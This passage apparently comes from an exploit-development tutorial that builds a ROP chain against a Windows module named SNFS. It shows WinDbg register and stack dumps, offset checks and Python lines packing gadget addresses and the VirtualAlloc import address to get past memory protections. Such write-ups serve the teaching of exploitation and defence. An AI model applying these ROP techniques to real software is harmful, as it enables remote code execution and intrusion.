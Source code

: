 Once we hit our breakpoint on `0x10012394` we check that our stack aligns correctly.

```python
0:006> r
eax=0d46e31c ebx=0d46e31c ecx=0d46ca70 edx=77e623b0 esi=0601b880 edi=00669360
eip=10012396 esp=0d46e320 ebp=51515151 iopl=0         nv up ei ng nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000283
SNFS!_flush+0x59:
10012396 5e              pop     esi

0:006> dd esp
0d46e320  42424242 42424242 10022a64 ffffffe4
0d46e330  10012ef4 42424242 43434343 43434343
0d46e340  43434343 43434343 43434343 43434343
0d46e350  43434343 43434343 43434343 43434343
0d46e360  43434343 43434343 43434343 43434343
0d46e370  43434343 43434343 43434343 43434343
0d46e380  43434343 43434343 43434343 43434343
0d46e390  43434343 43434343 43434343 43434343
```

We continue stepping through our instructions of our exploit and now note that we have calculated the offset correctly so `EAX` point to our address with the `VirtualAlloc` dummy value of `0x45454545`.

```python
0:006> r
eax=0d46e300 ebx=42424242 ecx=ffffffe4 edx=77e623b0 esi=42424242 edi=00669360
eip=10012ef7 esp=0d46e338 ebp=51515151 iopl=0         nv up ei pl nz ac pe cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
SNFS!_DestructExceptionObject+0x89:
10012ef7 c3              ret

0:006> dd esp
0d46e338  43434343 43434343 43434343 43434343
0d46e348  43434343 43434343 43434343 43434343

0:006> dd eax
0d46e300  45454545 46464646 00000000 48484848
0d46e310  00000000 51515151 0d46e31c 10012394
0d46e320  42424242 42424242 10022a64 ffffffe4
0d46e330  10012ef4 42424242 43434343 43434343
```

Looking at our IAT table we know the `VirtualAlloc` is at `0x100252E0` when imported. We pop the value into a register such as `ECX`.

```python
rop += pack("<L", (0x10022a64)) # pop ecx ; ret  ;
rop += pack("<L", (0x100252E0)) # VirtualAlloc Address
```

Next we take a step back, we would need various gadgets to be executed and we would have to work with what we have. Usually a ROP chain is lots of trail and error and we look ahead when selecting gadgets as some gadgets can be harder to find than others.
